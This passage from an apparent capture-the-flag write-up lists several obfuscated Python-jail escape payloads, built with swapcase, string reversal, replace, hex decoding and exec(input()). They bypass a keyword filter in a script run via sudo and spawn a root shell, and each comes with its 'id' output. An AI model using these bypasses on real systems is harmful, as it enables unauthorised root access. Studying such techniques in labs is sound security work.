 The method above was the intended way, but there are many other ways to bypass the filter in the program and spawn a shell.

- `swapcase()`
```console
>> __builtins__.__dict__['__IMPORT__'.swapcase()]('OS'.swapcase()).__dict__['SYSTEM'.swapcase()]('SH'.swapcase())
# id
uid=0(root) gid=0(root) groups=0(root)
```

- `[::-1]`
```console
>> __builtins__.__dict__['__tropmi__'[::-1]]('so'[::-1]).__dict__['metsys'[::-1]]('hs'[::-1])
# id
uid=0(root) gid=0(root) groups=0(root)
```

- `replace()`
```console
>> __builtins__.__dict__['__imXport__'.replace('X','')]('oXs'.replace('X','')).__dict__['sXystem'.replace('X','')]('sXh'.replace('X',''))
# id
uid=0(root) gid=0(root) groups=0(root)
```

- `bytes.fromhex()`
```console
>> __builtins__.__dict__[str(bytes.fromhex('5f5f696d706f72745f5f'),'utf-8')](str(bytes.fromhex('6f73'),'utf-8')).__dict__[str(bytes.fromhex('73797374656d'),'utf-8')](str(bytes.fromhex('7368'),'utf-8'))
# id
uid=0(root) gid=0(root) groups=0(root)
```

Lastly, instead of trying to access the `import` function to import the `os` module, we can use the `exec` function with `input()`, which allows us to run any Python code without a filter.

```console
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail
  Will you stay locked forever
  Or will you BreakMe
>> __builtins__.__dict__['cexe'[::-1]](input())
__import__("os").system("id")
uid=0(root) gid=0(root) groups=0(root)
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>
